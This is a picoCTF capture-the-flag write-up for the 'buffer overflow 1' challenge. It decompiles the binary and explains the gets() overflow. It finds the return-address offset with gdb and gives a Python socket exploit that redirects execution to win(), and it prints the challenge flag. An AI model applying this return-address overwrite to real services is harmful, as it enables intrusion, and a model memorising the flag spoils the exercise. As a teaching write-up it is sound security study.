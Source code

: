 ```yaml
---
title: PicoCTF - buffer overflow 1
published: 2025-10-26
description: PicoCTF Writeup for buffer overflow 1 Challenge
tags: [binary exploitation, medium, picoCTF 2022]
category: CTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - buffer overflow 1

I64 File (IDA Database): [/i64/202510261106.i64](/i64/202510261106.i64)

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/258?category=6&page=3](https://play.picoctf.org/practice/challenge/258?category=6&page=3)

> ## buffer overflow 1
> Author: Sanjay C / Palash Oswal
> 
> ### Description
> Control the return address<br>
> Now we're cooking! You can overflow the buffer and return to the flag function in the program.<br>
> You can view source here. And connect with it using nc saturn.picoctf.net 53903<br>
> ### Hints
> 1st - Make sure you consider big Endian vs small Endian.<br>
> 2nd - Changing the address of the return pointer can call different functions.<br>
> ### Resources:
> Source Code: [/vuln.c](https://artifacts.picoctf.net/c/185/vuln.c)<br>
> Binary: [/vuln](https://artifacts.picoctf.net/c/185/vuln)<br>

```bash title="Server Information"
$ nc saturn.picoctf.net 53903
```

## Decompile
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    __gid_t v4; // [esp+0h] [ebp-Ch]

    setvbuf(stdout, 0, 2, 0);
    v4 = getegid();
    setresgid(v4, v4, v4);
    puts("Please enter your string: ");
    vuln();
    return 0;
}

int vuln()
{
    int return_address; // eax
    char s[36]; // [esp+0h] [ebp-28h] BYREF
    int savedregs; // [esp+28h] [ebp+0h] BYREF

    gets(s);
    return_address = get_return_address((int)&savedregs);
    return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", return_address);
}

int __usercall get_return_address@<eax>(int a1@<ebp>)
{
    return *(_DWORD *)(a1 + 4);
}

int win()
{
    char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
    FILE *stream; // [esp+4Ch] [ebp-Ch]

    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(s, 64, stream);
    return printf(s);
}
```

The code above is the decompiled source code from a binary. Let me summarize it more concisely.

```c
int main(int argc, const char **argv, const char **envp)
{
    gid_t effective_group_id;

    setvbuf(stdout, NULL, _IONBF, 0);
    effective_group_id = getegid();
    setresgid(effective_group_id, effective_group_id, effective_group_id);
    puts("Please enter your string: ");
    vuln();
    return 0;
}

int vuln()
{
    int return_address;
    char buffer[36];
    int saved_return_address;

    gets(buffer);
    return_address = get_return_address((int)&saved_return_address);
    return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", return_address);
}

uint32_t get_return_address_from_ebp(uint32_t base_pointer)
{
    return *(uint32_t*)(base_pointer + 4);
}

int win()
{
    char flag[64];
    FILE *stream;

    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(flag, 64, stream);
    return printf(s);
}
```

## Analysis
This program receives a 36-byte string as input into a buffer in the `vuln` function and then returns to the stored `saved_return_address`.
However, the `saved_return_address` cannot normally be modified directly by the user.
Inside the function, though, the vulnerable function `gets` is used to store user input into the buffer.
This function is vulnerable to a **buffer overflow (BOF)**.
As a result, it is possible to overwrite the `saved_return_address` and manipulate the return address to jump to the `win` function.
When the `win` function is reached, the code that provides the flag is already stored there.

```bash
therustymate-picoctf@webshell:~$ r2 ./vuln_2
[0x080490e0]> aaa
...
[0x080490e0]> afl
...
0x080491f6    3    139 sym.win
...
```

```bash
therustymate-picoctf@webshell:~$ file ./vuln_2
./vuln_2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

In this program the `win` function is located at `0x080491f6`.
Therefore, to execute it in memory you can pack that address using `struct.pack`.
Because the program uses the x86 (32-bit) architecture, you should use `'<I'` in `struct.pack` to pack the address.

Now we need to find the offset that will overwrite the `saved_return_address`. I'll find the offset using `gdb`.

```python
>>> import string;string.printable
'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
```

```bash
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/therustymate-picoctf/vuln_2 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
Okay, time to return... Fingers Crossed... Jumping to 0x4c4b4a49

Program received signal SIGSEGV, Segmentation fault.
0x4c4b4a49 in ?? ()
(gdb) info registers eip
eip            0x4c4b4a49          0x4c4b4a49
```

gdb shows the `EIP` register is currently pointing at `0x4c4b4a49`. Converting that back into a string yields the following:

```python
>>> chr(0x4c)+chr(0x4b)+chr(0x4a)+chr(0x49)
'LKJI'
```

Since the string "LKJI" appears, it indicates that the return address starts from the character **'I'** and spans 4 bytes. The method to calculate the offset is as follows:

```python
>>> len('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'.split('IJKL')[0])
44
```

Therefore, after 44 bytes of characters, we can hijack the return address by using `struct.pack("<I", 0x080491f6)`.

## Exploit Script
```python
from socket import *
import struct
import sys
import time

def craftPayload():
    padding = b"A" * 44
    return_address = struct.pack("<I", 0x080491f6)
    payload = padding + return_address
    return payload

def exploit(target: str, port: int):
    payload = craftPayload()
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((str(target), int(port)))
    time.sleep(1)
    s.recv(65535)
    s.send(payload + b"\n")
    s.recv(65535)
    print(s.recv(65535).decode())
    s.close()

if __name__ == "__main__":
    args = sys.argv
    target = str(args[1])
    port = int(args[2])
    exploit(target, port)
```

## Result
```bash
therustymate-picoctf@webshell:~$ python3 solve.py saturn.picoctf.net 53903
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```

Therefore, the flag is: `picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`